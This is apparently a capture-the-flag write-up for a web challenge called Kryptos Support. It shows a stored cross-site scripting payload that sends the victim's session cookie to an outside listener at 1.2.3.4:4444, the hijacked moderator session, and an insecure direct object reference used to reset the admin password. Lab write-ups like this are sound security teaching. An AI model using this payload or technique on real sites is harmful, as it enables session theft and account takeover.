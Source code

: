 # [Web] Kryptos support

Kryptos Support is a web application that provides support for their users to submit tickets. Submitted tickets will be reviewed by an administrator.

Usually when an application allows some user input to be seen by a higher privilege user, it is about using a reflected Cross Site Scripting ([XSS](https://owasp.org/www-community/attacks/xss/)) vulnerability, for the admin to execute. Depends on the admin cookie, it then becomes exploitable as either cookie stealing or Cross Site Request Forgery (CSRF).

In this application, the cookies have the HTTP only flag set to false, and thus can be sent over via an XSS: namely [cookie stealing](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md).

Here we could have used `ngrok` as:

```
# terminal 1
$ ngrok http 4444

# terminal 2
$ python -m http.server 4444
```

Instead we use a ready to go server, copy the following into the report:

```
<script>
var i=new Image;
i.src="http://1.2.3.4:4444/?"+document.cookie;
</script>
```

![XSS](./img/web_kryptos_1.png)

And we soon see the review from the admin:

![XSSed](./img/web_kryptos_2.png)

From there, we can copy the cookie into Firefox developer console, Storage tab, and login as admin, to steal the session.

Subsequently, we see that it is not actually an `admin` who uses our XSS payload, but a `moderator`. However we do access to an additional menu to change the current user password.

![Change pass](./img/web_kryptos_3.png)

Fortunately, the user id, or `uid`, is used as part of the request. That's called [IDOR](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html). We can change anyone password using this API call. We just need to guess the admin `uid`, but there’s a high chance it is `1`. Let’s try it!

![Change pass admin](./img/web_kryptos_4.png)

We can now escalate from the `moderator` user, to the `admin` user for which we now know the password. Logging in with the `admin` user and `admin` password, we are presented with the flag:

![Change pass admin](./img/web_kryptos_5.png)

The flag is `HTB{x55_4nd_id0rs_ar3_fun!!}`.
